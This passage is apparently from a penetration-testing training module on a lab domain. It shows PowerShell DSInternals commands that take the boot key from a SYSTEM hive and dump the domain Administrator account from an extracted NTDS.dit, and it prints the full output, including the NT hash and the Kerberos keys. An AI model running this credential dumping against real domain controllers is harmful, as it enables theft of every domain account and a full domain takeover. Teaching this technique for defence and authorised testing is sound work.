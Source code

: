 ### Extracting Credentials from NTDS.dit

With the NTDS.dit extracted, we can use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials. Let's obtain the NTLM hash for just the `administrator` account for the domain using `DSInternals`.

```powershell
PS C:\> Import-Module .\DSInternals.psd1
PS C:\> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
```